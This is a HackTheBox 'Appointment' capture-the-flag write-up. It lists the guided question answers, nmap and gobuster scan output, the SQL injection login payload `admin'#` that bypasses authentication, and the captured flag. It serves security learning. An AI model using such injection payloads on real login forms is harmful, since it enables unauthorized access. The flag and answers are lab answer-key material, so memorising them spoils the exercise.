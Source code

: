 ```yaml
---
title: 🔵 HTB /  Appointment
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [nmap, gobuster, sqli]
---
```


What does the acronym SQL stand for?

`Structured Query Language`

What is one of the most common type of SQL vulnerabilities?

`sql injection`

What is the 2021 OWASP Top 10 classification for this vulnerability?

`A03:2021-Injection`

What does Nmap report as the service and version that are running on port 80 of the target?

`Apache httpd 2.4.38 ((Debian))`

What is the standard port used for the HTTPS protocol?

`443`

What is a folder called in web-application terminology?

`directory`

What is the HTTP response code is given for 'Not Found' errors?

`404`

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

`dir`

What single character can be used to comment out the rest of a line in MySQL?

`#`

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

`Congratulations`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

$ gobuster dir -u <ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/images               (Status: 301) [Size: 317] [--> http://10.129.146.191/images/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.146.191/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.146.191/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.146.191/vendor/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.146.191/fonts/]
/server-status        (Status: 403) [Size: 279]
...

$ firefox <ip>:80 &
```

login: `admin'#`

password: `abc`

flag: `e3d0796d002a446c0e622226f42e9672`
